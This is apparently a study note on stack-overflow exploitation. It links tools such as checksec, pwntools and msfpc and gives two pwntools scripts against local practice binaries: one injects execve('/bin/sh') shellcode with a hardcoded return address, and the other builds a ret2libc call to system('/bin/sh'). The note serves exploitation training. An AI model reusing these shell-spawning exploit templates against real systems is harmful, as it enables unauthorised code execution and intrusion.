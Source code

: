 https://segmentfault.com/a/1190000005888964
http://peckerwood.top/post/rop_0x01/
### checksec
https://github.com/slimm609/checksec.sh

### pattern.py:
https://github.com/Svenito/exploit-pattern

### MSF
https://github.com/g0tmi1k/msfpc

### pwn tools
https://docs.pwntools.com/en/stable/

### code
```python
#!/usr/bin/env python3
from pwn import *
import binascii

p = process('./rop')
ret = 0xffffd080
# core dump的buf地址可能会改变，需要在一段时间后执行脚本要重新计算ret值
shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += b"\x0b\xcd\x80"

#print (binascii.hexlify(shellcode))

"""
shellcode = asm('''
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f  
push 0x6e69622f   
mov ebx, esp
mov al, 11
int 0x80
''')
"""

code = shellcode
code += bytes(('A' * (140 - len(shellcode))).encode())
code += p32(ret)
print (binascii.hexlify(bytearray(code)))

p.send(code)

p.interactive()

```
## ret2libc
``` python
#!/usr/bin/env python3
from pwn import *
import binascii

p = process('./rop_ep')

# system() address in libc. 
# gdb$ break main 
# gdb$ run
# gdb$ print system  
system = 0xf7e132e0

# "/bin/sh" in libc.
# gdb$ print __libc_start_main
# gdb$ find &libc_main(), +22000, "/bin/sh"
param = 0xf7f540af

code = bytes(('A' * 140).encode())
code += p32(system) 
code += p32(0xdeadbeef)
code += p32(param)
print (binascii.hexlify(bytearray(code)))

p.send(code)

p.interactive()
```
